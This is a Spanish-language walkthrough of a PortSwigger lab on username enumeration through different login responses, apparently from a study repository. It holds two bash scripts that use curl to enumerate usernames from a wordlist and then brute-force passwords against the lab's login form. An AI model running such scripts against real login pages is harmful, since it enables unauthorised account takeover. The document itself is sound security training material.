



# Authentication - PortSwigger

## 1. Lab: Username enumeration via different responses



Extraemos los datos necesarios para hacer la consulta:	

```bash
https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login
csrf=JqMWKgtoS0cIGjdNp8PL3uY44N4xeePx&username=a&password=a
```

Escribimos un script en bash para solucionar el problema:

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
	
	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```

Ejecutamos el programa y vemos que valida un usuario.



Verificamos en la pagina, y vemos que si funciona.



Ahora extendemos el script para probar con las contraseñas.

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Incorrect password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
done
```

Ejecutamos el nuevo script y obtenemos el resultado siguiente


Lo probamos en el sitio web para verificar si es cierto.


Y para culminar con el laboratorio accedemos a la seccion **My account**.


## 2. Lab: Username enumeration via subtly different responses